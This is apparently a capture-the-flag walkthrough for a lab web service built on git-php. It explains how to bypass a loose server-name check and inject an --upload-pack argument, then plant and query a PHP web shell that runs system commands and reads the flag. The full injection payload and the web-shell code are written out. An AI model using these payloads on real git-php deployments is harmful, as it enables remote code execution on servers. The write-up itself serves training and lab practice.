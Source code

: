 1. Notice that the web service utilises HTTPS, navigate to https://127.0.0.1:5007/
2. In the HTML source there is a reference to a phpinfo display, navigate to https://127.0.0.1:5007/phpinfo.php
3. At the bottom of the phpinfo display there is a comment mentioning git-php is in use
4. Searching for vulnerabilities in git-php will return the following result https://security.snyk.io/vuln/SNYK-PHP-CZPROJECTGITPHP-2421349
5. Notice that any URL we enter returns a 'Could not process the input. Please provide a URL to the repository'. This is a filter looking for the right server name. The 'GitBox' server is hinted on the page, and the HTTPS certificate discloses the domain bigmoneyprojects.internal. Attempting the url https://GitBox.bigmoneyprojects.internal/asd returns a different response showing that the URL was attempted - 'The GitLab url is not readable!'
6. We also have to notice that the comparison is broken and does not start from the beginning of the input, i.e. `asdasddasd GitBox.bigmoneyprojects.internal` also works
6. Attempt the following blind payload for the CVE - `--upload-pack=echo hi > hi.txt; GitBox.bigmoneyprojects.internal`
7. The insecure comparison is important since the payload must start with `--upload-pack=blah blah blah`. This can be identified by donwloading the plugin and testing this out locally
6. Attempt the following blind webshell payload for the CVE - `--upload-pack=echo '<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' > test.php; GitBox.bigmoneyprojects.internal`
7. The web shell can then be queried via `https://192.168.1.2:5007/test.php?cmd=id`
8. flag can be retried via following payload `https://192.168.1.2:5007/test.php?cmd=cat%20flag.txt`